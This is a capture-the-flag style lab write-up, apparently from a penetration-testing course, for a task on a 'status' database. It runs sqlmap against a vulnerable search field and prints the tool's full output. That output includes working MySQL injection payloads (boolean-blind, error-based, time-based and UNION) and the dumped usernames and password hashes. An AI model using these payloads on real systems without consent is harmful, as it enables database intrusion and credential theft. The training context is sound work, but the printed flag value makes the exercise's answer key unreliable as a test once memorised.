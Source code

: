 **Enumerate the "status" database and retrieve the password for the "Flag" user. Submit the value as your answer.**

We know that the service page is vulnerable to sqli, running sql map and dump the users table.

```
sqlmap -r sqlmap.txt --dbms=mysql -D status -T users --dump   
        ___
       __H__                                                                
 ___ ___[,]_____ ___ ___  {1.7.6#stable}                                    
|_ -| . ["]     | .'| . |                                                   
|___|_  [.]_|_|_|__,|  _|                                                   
      |_|V...       |_|   https://sqlmap.org                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:57:03 /2023-07-23/

[06:57:03] [INFO] parsing HTTP request from 'sqlmap.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[06:57:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=%' AND 4818=4818#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=%' AND GTID_SUBSET(CONCAT(0x7162627071,(SELECT (ELT(8847=8847,1))),0x71626a7171),8847) AND 'HEaJ%'='HEaJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=%' AND (SELECT 8294 FROM (SELECT(SLEEP(5)))NLHq) AND 'MTXO%'='MTXO

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=%' UNION ALL SELECT NULL,CONCAT(0x7162627071,0x467864497061794451564b4f74694f5a72444b744b5367426b76444e4a7a4d476e414e74574a4246,0x71626a7171),NULL,NULL#
---
[06:57:05] [INFO] testing MySQL
[06:57:05] [INFO] confirming MySQL
[06:57:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[06:57:05] [INFO] fetching columns for table 'users' in database 'status'
[06:57:05] [INFO] fetching entries for table 'users' in database 'status'
Database: status
Table: users
[2 entries]
+----+----------+-----------------------------------+
| id | username | password                          |
+----+----------+-----------------------------------+
| 1  | Admin    | 4528342e54d6f8f8cf15bf6e3c31bf1f6 |
| 2  | Flag     | 1fbea4df249ac4f4881a5da387eb297cf |
+----+----------+-----------------------------------+

[06:57:05] [INFO] table '`status`.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local/dump/status/users.csv'    
```